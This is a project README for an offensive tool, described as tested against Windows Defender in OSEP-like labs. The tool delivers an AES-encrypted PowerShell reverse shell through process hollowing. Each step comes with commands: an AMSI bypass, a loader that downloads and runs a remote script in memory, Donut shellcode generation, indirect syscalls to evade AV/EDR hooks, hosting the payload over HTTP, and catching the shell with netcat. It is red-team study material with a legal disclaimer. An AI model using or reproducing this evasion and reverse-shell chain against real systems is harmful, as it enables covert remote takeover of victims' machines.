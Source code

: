# 🧬 Stealth Shellcode Runner – AES + Donut + PowerShell Loader

This project demonstrates a stealthy end-to-end technique to execute an AES-encrypted PowerShell reverse shell using:

- **Process Hollowing**
- **AES-256-CBC Encryption**
- **Donut Shellcode Generator**
- **.NET AMSI Bypass**
- **Indirect Syscalls**
- **PPID Spoofing (not implemented, but supported)**

Tested in OSEP-like environments with **Windows Defender enabled**.

---

## 🧩 Step 1: Build the PowerShell Loader

- The C# loader (`Loader.cs`) patches AMSI via `.NET Reflection`, downloads a remote PowerShell payload, and executes it in memory using `Runspace`.
- Uses base64 string obfuscation for script names like `shell.ps1`.

📌 **Important:**  
Make sure the hardcoded IP in `Loader.exe` **matches the IP of the machine hosting `shell.ps1`** via HTTP.

📌 **Note:** You may need to reference:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

---

## 🧪 Step 2: Generate Shellcode with Donut

Convert the compiled `Loader.exe` into raw shellcode using [Donut](https://github.com/TheWover/donut):

```bash
donut.exe -i Loader.exe -a 2 -f 1 -b 1 -o shellcode.bin
```

**Explanation of Donut flags:**
- `-a 2`: Target architecture (x64)
- `-f 1`: Output format: raw shellcode
- `-b 1`: AMSI/WLDP/ETW bypass level  
  - `1`: **No bypass**  
  - `2`: Abort on failure  
  - `3`: Continue on failure

💡 *This project uses Donut on Windows and then transfers `shellcode.bin` to a Kali Linux host for encryption.*

---

## 🔐 Step 3: Encrypt the Shellcode with AES

Use the provided Python script to encrypt the shellcode using AES-256-CBC:

```bash
python3 Aes_encryption.py
```

- The script outputs `encryptedShellcode`, `aesKey`, and `aesIV` as C# byte arrays.
- Paste these into the `Advanced_Process_Hollowing.cs` runner.

---

## 🧠 Step 4: Execute with Process Hollowing + Indirect Syscalls

The shellcode runner performs the following:

- Creates a suspended process (e.g., `svchost.exe`)
- Allocates memory using `NtAllocateVirtualMemory` (indirect syscall)
- Decrypts the AES shellcode in memory
- Writes shellcode using `NtWriteVirtualMemory` (indirect syscall)
- Sets memory protection to `RX` using `NtProtectVirtualMemory`
- Launches a thread using `NtCreateThreadEx` (indirect syscall)

✅ All syscalls are performed using dynamically allocated stubs from `ntdll.dll`, bypassing userland API hooks from AV/EDR.

❌ **PPID Spoofing is not implemented in this version**, although the use of `STARTUPINFOEX` structure means it could be added in the future.

---

## 🌐 Step 5: Host the PowerShell Reverse Shell

Create a `shell.ps1` PowerShell script containing your reverse shell logic.

📌 **Important:**  
Ensure that the IP inside `shell.ps1` (e.g. `TCPClient('192.168.1.X', 443)`) **matches the IP of your listener machine**.

Then serve the file using Python:

```bash
python3 -m http.server 80
```

---

## 📡 Step 6: Start Listener with Netcat

Use `netcat` (and optionally `rlwrap`) to catch the reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## 🚀 Step 7: Run the Shellcode Runner

Once everything is set up, run the compiled runner:

```bash
.\Advanced_Process_Hollowing.exe
```

If successful, your listener will receive the reverse shell connection.

---

## ✅ Summary

- AMSI is patched via .NET Reflection
- AES-encrypted shellcode is decrypted and injected into a remote process
- Full execution is achieved via indirect syscalls to evade detection
- The shellcode loads a PowerShell loader that fetches and executes a remote payload
- Designed for stealth and tested in Defender-enabled environments
- PPID Spoofing is not yet implemented, but possible with minimal modification

---

## ⚠️ Legal Notice

This project is for **educational and authorized penetration testing** purposes only.  
Do not use this code outside of lab environments or without **explicit permission**.  
Misuse may be illegal and unethical.

---
